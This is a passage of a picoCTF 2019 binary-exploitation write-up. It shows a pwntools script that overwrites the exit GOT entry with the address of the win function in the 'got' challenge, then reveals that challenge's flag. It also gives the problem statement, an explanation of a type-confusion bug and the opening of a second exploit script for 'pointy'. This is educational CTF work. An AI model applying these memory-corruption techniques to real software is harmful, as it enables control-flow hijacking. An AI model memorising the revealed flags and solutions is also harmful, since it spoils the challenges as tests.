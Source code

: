```python
  if DEBUG:
    attach_gdb()

  REMOTE = False
else:
  s = ssh(host='2019shell1.picoctf.com', user='sashackers', password="XXX")
  sh = s.process('vuln', cwd='/problems/got_1_6a9949d39d119bd2973bdc661d78f71d')
  REMOTE = True

# $ r2 ./vuln
# [0x080484b0]> aaaa
# [0x080484b0]> afl~win
# 0x080485c6    3 153          sym.win
# [0x080484b0]> afl~exit
# 0x08048460    1 6            sym.imp.exit
# [0x080484b0]> pdf @ sym.imp.exit
# / (fcn) sym.imp.exit 6
# \           0x08048460      ff251ca00408   jmp dword [reloc.exit]      ; 0x804a01c ; "f\x84\x04\bv\x84\x04\b\x86\x84\x04\b\x96\x84\x04\b"

exit_got = 0x804a01c
win_addr = 0x080485c6

sh.sendlineafter('address\n', str(exit_got))
sh.sendlineafter('value?\n', str(win_addr))

sh.interactive()
```

flag: `picoCTF{A_s0ng_0f_1C3_and_f1r3_e122890e}`

# pointy

## Problem

Exploit the function pointers in this program. It is also found in /problems/pointy_1_e2b49b679521bd6d957b864c91e7b39e on the shell server. Source.

[Binary](/blog/picoctf-2019-writeup/binary-exploitation/pointy/vuln)

[Source](/blog/picoctf-2019-writeup/binary-exploitation/pointy/vuln.c)

## Solution

The bug in the program is that we can select professors as students and students as professors. By writing the `lastScore` of a `professor` and then treating it as a `student`, we can control the `scoreProfessor` field and retrieve the flag.

Exploit script:

```python
from pwn import *
import sys

argv = sys.argv

DEBUG = True
BINARY = './vuln'

context.binary = BINARY
context.terminal = ['tmux', 'splitw', '-v']

def attach_gdb():
  gdb.attach(sh)
```